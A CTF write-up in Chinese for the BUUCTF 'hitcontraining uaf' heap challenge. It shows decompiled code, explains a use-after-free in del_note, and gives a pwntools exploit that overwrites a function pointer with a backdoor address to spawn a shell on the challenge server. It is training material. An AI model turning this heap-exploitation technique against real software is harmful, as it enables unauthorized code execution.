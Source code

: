 ```yaml
---
author: 
  name: Zephyr
title: hitcontraining uaf
date: 2022-4-11 15:32:17
permalink: /pages/2e1547494524d1b3
tags: 
  - buuctf
  - pwn
  - heap
---
```


# hitcontraining uaf

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/hitcontraining_uaf/hacknote'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下：

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char buf; // [esp+0h] [ebp-Ch]
  int *v5; // [esp+4h] [ebp-8h]

  v5 = &argc;
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      read(0, &buf, 4u);
      v3 = atoi(&buf);
      if ( v3 != 2 )
        break;
      del_note();
    }
    if ( v3 > 2 )
    {
      if ( v3 == 3 )
      {
        print_note();
      }
      else
      {
        if ( v3 == 4 )
          exit(0);
LABEL_13:
        puts("Invalid choice");
      }
    }
    else
    {
      if ( v3 != 1 )
        goto LABEL_13;
      add_note();
    }
  }
}
```

add_note函数如下：

```c
void *add_note()
{
  void *result; // eax
  _DWORD *v1; // esi
  char buf; // [esp+0h] [ebp-18h]
  size_t size; // [esp+8h] [ebp-10h]
  int i; // [esp+Ch] [ebp-Ch]

  result = (void *)count;
  if ( count > 5 )
    return (void *)puts("Full");
  for ( i = 0; i <= 4; ++i )
  {
    result = notelist[i];
    if ( !result )
    {
      notelist[i] = malloc(8u);
      if ( !notelist[i] )
      {
        puts("Alloca Error");
        exit(-1);
      }
      *(_DWORD *)notelist[i] = print_note_content;
      printf("Note size :");
      read(0, &buf, 8u);
      size = atoi(&buf);
      v1 = notelist[i];
      v1[1] = malloc(size);
      if ( !*((_DWORD *)notelist[i] + 1) )
      {
        puts("Alloca Error");
        exit(-1);
      }
      printf("Content :");
      read(0, *((void **)notelist[i] + 1), size);
      puts("Success !");
      return (void *)(count++ + 1);
    }
  }
  return result;
}
```

print_note函数如下：

```c
void *print_note()
{
  void *result; // eax
  char buf; // [esp+8h] [ebp-10h]
  int v2; // [esp+Ch] [ebp-Ch]

  printf("Index :");
  read(0, &buf, 4u);
  v2 = atoi(&buf);
  if ( v2 < 0 || v2 >= count )
  {
    puts("Out of bound!");
    _exit(0);
  }
  result = notelist[v2];
  if ( result )
    result = (void *)(*(int (__cdecl **)(void *))notelist[v2])(notelist[v2]);
  return result;
}
```

del_note函数如下：

```c
int del_note()
{
  int result; // eax
  char buf; // [esp+8h] [ebp-10h]
  int v2; // [esp+Ch] [ebp-Ch]

  printf("Index :");
  read(0, &buf, 4u);
  v2 = atoi(&buf);
  if ( v2 < 0 || v2 >= count )
  {
    puts("Out of bound!");
    _exit(0);
  }
  result = (int)notelist[v2];
  if ( result )
  {
    free(*((void **)notelist[v2] + 1));
    free(notelist[v2]);
    result = puts("Success");
  }
  return result;
}
```

magic函数如下：

```c
int magic()
{
  return system("/bin/sh");
}
```



## 思路分析

1. 目前信息：

   - del_note函数释放内存时没有清空指针，存在uaf
   - 存在后门函数magic
   - Partial RELRO
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 一次add_note函数的执行将申请2个堆块，第一个堆块大小为8字节且为堆块的控制部分，分别存放print_note函数地址与第二个自定义大小的堆块地址，这里选择先申请2个大堆块，分别释放后，大小不同的2个bins分别串起来对应的数据，这时申请自定义大小刚好为8字节的堆块，将会把2个8字节堆块都申请回来使用，根据后进先出的原理，原来第二个堆块的控制堆块成为第三个堆块的控制堆块，第一个堆块的控制堆块则成为第三个堆块的数据堆块，这时更改其中的函数指针为backdoor地址，对第一个块执行print_note即可获得shell

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/hitcontraining_uaf/hacknote'
io = remote('node4.buuoj.cn', 28145)
# io = process(pwnfile)

def Create(io, size, content):
    io.sendlineafter(":", '1')
    io.sendlineafter(":", str(size))
    io.sendlineafter(":", content)

def Delete(io, index):
    io.sendlineafter(":", '2')
    io.sendlineafter(":", str(index))

def Print(io, index):
    io.sendlineafter(":", '3')
    io.sendlineafter(":", str(index))
    
elf = ELF(pwnfile)
back_door = elf.symbols['magic']
Create(io, 0x10, 'aaaa')
Create(io, 0x10, 'bbbb')
Delete(io, 0)
Delete(io, 1)
Create(io, 0x8, flat([back_door]))
Print(io, 0)
io.interactive()
```